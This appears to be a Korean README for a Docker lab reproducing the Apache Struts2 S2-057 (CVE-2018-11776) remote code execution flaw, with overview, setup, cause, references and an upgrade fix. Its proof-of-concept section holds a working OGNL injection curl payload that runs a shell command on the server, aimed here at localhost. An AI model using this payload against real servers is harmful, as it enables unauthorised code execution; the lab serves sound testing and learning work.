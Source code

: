# CVE-2018-11776 - Apache Struts2 (S2-057) 취약점 환경 구축
## 1. 취약점 개요
CVE 번호: CVE-2018-11776

유형: 원격 코드 실행 (RCE)

심각도: 9.8 (Critical)

설명: Struts2에서 URL 맵핑 시 입력값 검증이 부족해 OGNL 표현식이 실행되어 임의 코드가 실행될 수 있는 취약점입니다.

## 2. 환경 구성 방법
Dockerfile, docker-compose.yml 사용

Struts2 vulnerable app 설치

실행:

bash
복사
편집
docker-compose up --build
브라우저 접속: http://localhost:8080/struts2-showcase

## 3. PoC 방법
curl 명령어로 원격 명령어 실행 시도:

bash
복사
편집
curl "http://localhost:8080/struts2-showcase/${(#a=@java.lang.Runtime@getRuntime().exec('touch /tmp/hacked'))}/actionChain1.action"
컨테이너 접속 후 /tmp/hacked 파일 생성 여부 확인

## 4. 발생 원인
URL 경로의 OGNL 표현식이 서버에서 실행되어 임의 코드 실행이 발생.

## 5. 대응 방안
Struts2 2.5.17 이상으로 업데이트

## 6. 참고 자료
- [Apache 공식 보안 권고 (S2-057)](https://cwiki.apache.org/confluence/display/WW/S2-057)
- [NVD 상세정보 CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776)
- [Vulhub Struts2 S2-057 환경 예시](https://github.com/vulhub/vulhub/tree/master/struts2/s2-057)
